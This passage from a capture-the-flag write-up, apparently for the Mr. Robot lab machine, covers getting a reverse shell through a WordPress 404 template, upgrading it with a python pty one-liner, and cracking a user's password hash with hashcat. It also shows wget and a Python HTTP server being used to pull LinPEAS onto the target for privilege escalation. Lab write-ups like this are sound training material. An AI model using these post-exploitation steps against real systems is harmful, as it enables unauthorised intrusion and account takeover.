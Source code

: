 Then we just click on the `Update File` button. Now we can navigate to any incorret/inexistent URL in the blog and that template will be loaded and our payload will be executed (hopefully):

![](https://i.imgur.com/6sscFzC.png)

and we get our shell:

![](https://i.imgur.com/fZz4Yag.png)

Finally we get a foothold in this machine. Now its time to go flag hunting. Let's see if we can get ourselves a better shell using python TTY:

`python -c 'import pty; pty.spawn("/bin/bash")'`

That works and now we have a more stable TTY shell. Let's browse around a bit and see what we can find:

After a bit of searching we do have two interesting files in the `home/robot` folder:

![](https://i.imgur.com/pMiRQ2H.png)

There is the second flag and a hashed password. The first one is out of reach with the current access level, but the hashed file we can access. So let's try to crack that one.

We copy the hashed file contents into our machine, and try to crack it using hashcat:

![](https://i.imgur.com/Gol64iy.png)

And that's it we got the password for Robot's account, So back to our reverse shell we swicht users:

![](https://i.imgur.com/Nd6lrIC.png)

With that we got the second flag. Let's hunt the last one now. If we check the sudoers permission of this user we see that it cannot run sudo at all. So Let's take the Linpeas approach. 

We download Linpeas in case we don't have it with: `wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh`

Then we fire up a local HTTP server with Python on our attack machine: `sudo python3 -m http.server`

![](https://i.imgur.com/CK8Gk7V.png)

and now from the reverse shell session we get linpeas:

![](https://i.imgur.com/4xk4dKj.png)

now we do `chmod +x linpeas.sh` so we can execute it as a program and then run it:

![](https://i.imgur.com/4xk4dKj.png)

This will take a bit to run, so let's wait and see what we can find to escalate our privileges. After some minutes we get a nice lead:

![](https://i.imgur.com/QtG44Dy.png)

